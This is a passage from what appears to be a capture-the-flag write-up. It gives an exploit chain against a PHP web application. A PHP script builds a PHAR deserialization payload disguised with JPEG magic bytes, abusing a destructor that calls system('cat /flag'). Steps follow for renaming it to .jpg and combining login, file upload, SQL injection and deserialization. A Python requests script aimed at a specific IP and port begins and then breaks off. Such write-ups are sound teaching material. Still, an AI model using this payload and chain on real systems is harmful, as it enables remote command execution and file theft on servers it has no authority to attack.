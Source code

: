 ```php
        $result = $this->query($sql);
        return $result->fetch_assoc(); // 결과를 연관 배열로 반환
    }
    /**
     * 결과에서 연관 배열로 모든 행 가져오기
     * 
     * @param string $sql SQL 쿼리
     * @return array 쿼리 결과
     */
    public function fetchAll($sql){
        $result = $this->query($sql);
        return $result->fetch_all(MYSQLI_ASSOC); // 연관 배열로 모든 결과 반환
    }
    /**
     * 데이터베이스 연결 종료
     */
    public function close(){
        $this->mysqli->close();
    }
    function __destruct() {
        if(!empty($this->func)){
            call_user_func($this->func, $this->args);
        }
    }
}
@unlink("./payload.phar");

$phar = new Phar('./payload.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff<?php __HALT_COMPILER(); ?>");

$object = new DBCON(); 
$object->func = "system"; 
$object->args = "cat /flag";

$phar->setMetadata($object);
$phar->stopBuffering();
$object->close();

// file_exists("phar://./payload.jpg");
// php --define phar.readonly=0 payload.php 
?>  
```     
       
2. Change the file extension from .phar to .jpg     
         
3. login & file upload & sql injection & php deserialization   
           
```python
import requests

url = 'http://52.79.217.37:10001'
ID = PW = 'helloworld1111'
# URL = 'http://localhost:10001'

def string_to_hex(input_string):
    hex_result = ''.join(format(ord(char), '02x') for char in input_string)
    return f'0x{hex_result}'

s = requests.Session() 

r = s.post(
    f"{url}/users/registerapi.php", 
```